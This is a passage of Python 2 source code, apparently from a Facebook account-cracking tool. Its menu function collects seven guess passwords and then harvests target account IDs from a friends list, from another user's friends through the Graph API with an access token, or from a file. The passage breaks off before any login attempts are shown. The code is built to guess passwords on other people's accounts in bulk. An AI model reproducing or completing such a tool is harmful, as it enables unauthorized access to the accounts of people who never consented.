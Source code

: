 def choice_action():
	bch = raw_input("\n  ▄︻̷̿┻̿═━一   ")
	if bch =="":
		print ("[!] Fill in correctly")
		choice_action()
	elif bch =="1":
		os.system("clear")
		print (logo)
		pass1=raw_input(" Put Password No 1 : ")
		pass2=raw_input(" Put Password No 2 : ")
		pass3=raw_input(" Put Password No 3 : ")
		pass4=raw_input(" Put Password No 4 : ")
		pass5=raw_input(" Put Password No 5 : ")
		pass6=raw_input(" Put Password No 6 : ")
		pass7=raw_input(" Put Password No 7 : ")
		r = session.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z["data"]:
			id.append(s["id"])
	elif bch =="2":
		os.system("clear")
		print (logo)
		idt = raw_input("[✓] Enter ID : ")
		pass1=raw_input(" Put Password No 1 : ")
		pass2=raw_input(" Put Password No 2 : ")
		pass3=raw_input(" Put Password No 3 : ")
		pass4=raw_input(" Put Password No 4 : ")
		pass5=raw_input(" Put Password No 5 : ")
		pass6=raw_input(" Put Password No 6 : ")
		pass7=raw_input(" Put Password No 7 : ")
		os.system("clear")
		print (logo)
		try:
			jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\n[Back]")
			choice_menu()
		r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z["data"]:
			id.append(i["id"])
	elif bch =="3":
		os.system("clear")
		print (logo)
		try:
			idlist = raw_input("[✓] Enter File Path  : ")
			pass1=raw_input(" Put Password No 1 : ")
			pass2=raw_input(" Put Password No 2 : ")
			pass3=raw_input(" Put Password No 3 : ")
			pass4=raw_input(" Put Password No 4 : ")
			pass5=raw_input(" Put Password No 5 : ")
			pass6=raw_input(" Put Password No 6 : ")
			pass7=raw_input(" Put Password No 7 : ")
			for line in open(idlist,"r").readlines():
				id.append(line.strip())
		except IOError:
			print ("[!] File Not Found")
			raw_input("\n[ Back ]")
			choice_menu()
	elif bch =="0":